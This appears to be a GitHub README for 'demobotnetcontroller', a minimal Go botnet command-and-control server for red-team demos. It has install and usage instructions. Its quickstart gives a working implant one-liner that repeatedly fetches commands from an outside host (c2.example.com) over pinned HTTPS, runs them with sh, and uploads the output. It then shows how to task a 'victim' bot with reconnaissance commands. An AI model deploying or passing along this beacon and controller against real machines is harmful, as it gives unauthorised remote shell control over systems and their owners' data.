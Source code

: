 demobotnetcontroller
====================
Demo-grade botnet controller

Features:
- Comms via HTTPS with a self-signed cert.
- Tasking and output via plaintext files.
- Bot-tracking via plaintext files' mtimes.
- Minimal documentation-caused confusion.
- Minimal distractions due to excessive (or any?) features.
- Exploit resistance via `pledge(2)` and `unveil(2)` (OpenBSD-only).
- Tests (probably mostly OpenBSD-only).
- ~Only tested~ Works well with curl in a loop.

For legal use only.

Quickstart
----------
1. Download/install
   ```sh
   go install github.com/magisterquis/demobotnetcontroller@latest
   ```
2. Start it going
   ```sh
   demobotnetcontroller -h # For good measure
   demobotnetcontroller
   ```
   We should see something like
   ```json
   {
           "time": "2025-10-31T01:52:03.556730378+01:00",
           "level": "INFO",
           "msg": "Server starting",
           "fingerprint": "Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE=",
           "address": "127.0.0.1:4433",
           "PID": 62063,
           "directory": "demobotnet",
           "prefix": "/demobotnet/"
   }
   ```
3. TLS is self-signed.  Use the fingerprint and URL prefix from the first log
   message to roll an HTTPS/shell something, e.g.
   ```sh
   while :; do
   ( curl \
           --insecure \
           --max-time 10 \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           https://c2.example.com:4433/demobotnet/$(hostname)-$$ |
   sh 2>&1 |
   curl \
           --insecure \
           --max-time 10 \
           --pinnedpubkey sha256//Pj3k5tQFBQyDmXFeS79j2t/qU0WClx5qKI2DsaZn7AE= \
           --silent \
           --upload-file - \
           https://c2.example.com:4433/demobotnet/$(hostname)-$$ ) &
   sleep 10
   done
   ```
   Last element of the path is the Implant ID, in this case a hostname and the
   script's PID.

   When it first calls back, we should see something like
   ```json
    {
            "time": "2025-11-01T15:34:31.848009955+01:00",
            "level": "INFO",
            "msg": "New ID",
            "request": {
                    "remote_address": "10.135.2.240:39398",
                    "method": "PUT",
                    "host": "c2.example.com:4433",
                    "request_uri": "/demobotnet/victim.com-1234",
                    "user_agent": "curl/8.14.1"
            },
            "id": "victim-1234"
    }
   ```
4. Tasking and output are in the directory in the first log message.  Output
   is in a file with the same name as Implant IDs.  Tasking goes in a file with
   the same name plus `_task`.
   ```sh
   # Be in the directory with tasking and output.
   cd demobotnet
   # Give it the the sort of tasking one should give a new bot.
   echo 'ps awwwfux; uname -a; id' >> victim.com-1234_task
   # Watch for output
   tail -f victim.com-1234
   ```

Usage
-----
```
Usage: demobotnetcontroller [options]

Demo-grade botnet controller.

- Comms over HTTP, GET for tasking, POST/PUT for output.
- URL path must have the right prefix, last component is bot ID.
- IDs must be [A-Za-z0-9-.]+
- Tasking goes into files named after the bots' IDs.
- Output will go to files named after the bots' IDs plus _out.
- TLS Fingerprint (for --pinnedpubkey) is in _tls_fingerprint.

Options:
  -debug
    	Enable debug logging
  -dir directory
    	Bot tasking/output directory (default "demobotnet")
  -listen address
    	Listen address (default "0.0.0.0:4433")
  -max-runtime duration
    	Maximum run duration
  -prefix string
    	HTTP path prefix for bots (default "/demobotnet")
```

